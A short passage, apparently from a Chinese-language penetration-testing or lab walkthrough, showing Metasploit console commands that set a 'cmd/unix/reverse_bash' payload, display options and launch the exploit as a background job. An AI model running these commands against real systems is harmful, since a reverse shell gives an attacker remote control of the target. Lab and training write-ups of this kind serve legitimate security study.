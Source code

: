 ![](../img/Dracuspicy/45.png)
```bash
# 设置合适的 payload
set payload payload/cmd/unix/reverse_bash

# 查看设置的参数
show options

# 运行 漏洞利用程序
run -j
```